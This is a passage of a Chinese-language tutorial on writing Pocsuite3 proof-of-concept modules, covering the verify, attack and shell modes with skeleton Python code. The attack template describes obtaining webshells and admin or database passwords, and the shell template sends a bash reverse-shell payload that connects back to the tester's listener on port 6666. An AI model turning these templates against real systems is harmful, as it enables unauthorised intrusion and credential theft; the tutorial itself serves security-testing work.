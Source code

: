 针对有回显的漏洞，只要在 PoC 中实现一个 _exploit  
 方法，就可轻松实现 Pocsuite3 的 _verify  
、_attack  
、_shell  
 三种模式，因为这些模式对应的函数里面发送payload的方法都默认是由_exploit 函数实现的。  
### 5.编写验证模式代码，也就是_verify函数的代码 （该函数最后要返回一个output对象）  
  
官方建议在_verify  
函数当中，使用PoCBase 中的 parse_output()  
通用结果处理函数对 _verify  
 和 _attack   
结果进行返回，而parse_output()  
函数接受一个字典作为参数，如果字典不为空则代表漏洞验证/攻击成功，所以大家写poc时，**确保漏洞验证成功后，再给结果字典赋值并传递给**parse_output()**做结果解析并输出。**  
```
def _verify(self, verify=True):    result = {}    res=_exploit(self)    #返回包内容匹配    #...    #结果输出    if 漏洞验证条件:        # 返回漏洞验证成功的网站的信息        result['VerifyInfo'] = {}        result['VerifyInfo']['URL'] = self.url    return self.parse_output(result)
```  
  
**result是存储结果的字典，其字典的不同的key值代表了不同的含义，具体详细的详细请看官网的描述：**  
  
https://pocsuite.org/guide/poc-specification.html#poc-%E7%BB%93%E6%9E%9C%E8%BF%94%E5%9B%9E%E8%A7%84%E8%8C%83  
### 6.编写攻击模式的代码，也就是_attack函数。  
  
攻击模式可以对目标进行 getshell，查询管理员账  
号密码等操作，  
**定义它的方法与验证模式类似**  
，完全由我们自定义攻击逻辑。**return返回的结果也和验证模式一样，攻击成功后需要把攻击得到结果赋值给 result 变量并调用 self.parse_output(result)返回结果。**  
```
def _attack(self):    output = Output(self)    result = {}    # 攻击代码    res=_exploit(self,cmd='ppppp')    # 返回包内容匹配    #...    # 结果输出    if 漏洞攻击成功验证条件:        # 返回数据库管理员密码        result['DBInfo'] = {}        result['DBInfo']['Password']='xxxxx'        # 返回 Webshell 地址        result['ShellInfo'] = {}        result['ShellInfo']['URL'] = 'xxxxx'        # 返回网站管理员用户名        result['AdminInfo'] = {}        result['AdminInfo']['Username']='xxxxx'     returnself.parse_output(result)
```  
  
如果该 PoC 没有攻击模式，可以在 _attack()  
 函数下加入一句 return self._verify()  
 这样你就无需再写 _attack() 函数了，如下所示。  
```
def _attack(self):    return self._verify()
```  
### 7.编写shell模式的代码，也就是_shell函数  
  
如果没有shell模式则同理可以在 _shell()  
 函数下加入一句 return self._verify()  
  
Pocsuite3 在 shell 模式会默认监听本地127.0.0.1的 **6666**  
 端口，编写对应的攻击代码**(一般就是反弹shell的命令，可以用框架本身提供的，也可以自己写)**，让目标执行反向连接运行 Pocsuite3 系统 IP 的 6666 端口即可得到一个 shell。shell 模式下，只能运行单个 PoC 脚本，控制台会进入 shell 交互模式执行命令及输出。  
```
def _shell(self):    cmd = REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port())    # 攻击代码 execute cmd    self._exploit(cmd)
```  
  